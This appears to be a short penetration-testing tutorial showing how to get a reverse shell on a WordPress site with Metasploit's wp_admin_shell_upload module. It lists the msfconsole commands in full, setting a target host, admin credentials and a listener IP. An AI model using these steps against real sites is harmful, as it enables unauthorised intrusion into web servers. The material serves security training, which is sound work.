 # Attacking WordPress with Metasploit
We can use the Metasploit Framework (MSF) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.

We can quickly start `MSF` by issuing `msfconsole`.

To obtain the reverse shell, we can use the `wp_admin_shell_upload` module. We can easily search for it inside `MSF`:
```bash
 search wp_admin
```
```bash
use 0
```
### Module Options
Each module offers different settings options that we can use to assign precise specifications to `MSF` to ensure the attack's success. We can list these options by issuing `options`.
## Exploitation
After using the `set` command to make the necessary modifications, we can use the `run` command to execute the module. If all of our parameters are set correctly, it will spawn a reverse shell on the target upon execution.
```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run
```

>NOTE: You must have plugin upload privileges